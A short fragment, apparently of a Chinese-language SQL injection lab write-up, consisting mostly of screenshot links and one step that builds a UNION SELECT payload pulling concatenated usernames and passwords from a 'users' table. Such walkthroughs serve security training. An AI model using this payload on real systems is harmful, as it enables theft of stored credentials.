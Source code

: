 <img src="assets/image-20250627000349470.png" alt="image-20250627000349470" style="zoom: 67%;" />

所以这样构造：

```
Gifts' union select 1, username || password from users--+
```

![image-20250627000853772](assets/image-20250627000853772.png)
